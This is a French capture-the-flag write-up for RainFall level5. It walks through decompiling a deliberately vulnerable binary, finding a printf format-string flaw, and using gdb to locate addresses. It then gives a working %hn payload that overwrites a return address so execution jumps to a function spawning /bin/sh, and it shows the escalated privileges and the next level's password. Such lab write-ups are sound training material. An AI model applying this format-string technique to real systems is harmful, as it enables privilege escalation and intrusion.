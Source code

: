 # level5

On décompile l'exécutable du répertoire avec ghidra.
```
void o(void)
{
  system("/bin/sh");
                    // WARNING: Subroutine does not return
  _exit(1);
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    // WARNING: Subroutine does not return
  exit(1);
}

void main(void)
{
  n();
  return;
}
```

On constate le meme style de faille, à savoir, "format string".
Cette fois-ci une fonction qui n'est pas appelé dans le programme parent, lance un shell.
Nous savons qu'il faut donc rediriger le programme vers cette fonction.

Nous avons donc besoin des adresses suivantes :
- l'adresse de la fonction "o"
- l'emplacement de la stack frame pour injecter notre code (faille printf)
- l'adresse pour rediriger le programme grace a la faille de printf

lançons gdb
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
L'adresse de la fonction "o" est "0x080484a4"

```
Starting program: /home/user/level5/level5
AAAA%x %x %x %x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
[Inferior 1 (process 8892) exited with code 01]
```
L'endroit où nous pouvons agir sur le code est %4$x (4e stack frame).
```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) b* printf
Breakpoint 1 at 0x8048380

## Nous mettons un breakpoint avant l'appel de printf.

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level5/level5
%x

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff520	-1073744608
ecx            0xb7fda003	-1208115197
edx            0xb7fd28c4	-1208145724
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff50c	0xbffff50c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0xb7e78850	0xb7e78850 <printf>
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

## Nous avons l'adresse de esp, qui sera mis dans eip plus tard.

(gdb) x/wx $esp
0xbffff50c:	0x080484f8

## esp pointe vers une adresse

(gdb) x/2i 0x080484f8
0x80484f8 <n+54>:	movl   $0x1,(%esp)
0x80484ff <n+61>:	call   0x80483d0 <exit@plt>

## en inspectant nous retrouvons la suite de l'exécution du programme
```

Nous avons allons donc écraser l'adresse "0x080484f8" par l'adresse de la fonction "o" : "0x080484a4".
Et quand le programme arrivera a "0xbffff50c", le code de la fonction o sera executé.

Nous allons écrire cette adresse avec la meme technique que précedemment (%n).
Le problème est que le nombre d'espaces à inséré est conséquent.
"0x080484a4" en décimal = "134513828".
Nous allons donc pour éviter d'attendre, spliter de 4 octets a 2 octets. Avec la technique suivante :
```
level5@RainFall:~$ python -c 'print("\x0c\xf5\xff\xbf" + "\x0e\xf5\xff\xbf" + "%33948x" + "%4$hn" + "%33632x" +  "%5$hn" )' > /tmp/exploit2
```
Nous convertissons "0x84a4" que nous mettons dans "\x0c\xf5\xff\xbf" (33956 - 8(les adresses)). Puis "0x0804" dans "\x0e\xf5\xff\xbf".
Normalement pour trouver le nombre des espaces a rentrer pour le deuxieme, il faut utiliser la formule (1 + 2) - 1.
Ici le fait que "0804" soit plus petit que 84a4, nous devons repartir de 0. Ici j'ai fais au feeling, en testant beaucoup de fois.


```
level5@RainFall:~$ cat /tmp/exploit2 - | /home/user/level5/level5

id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
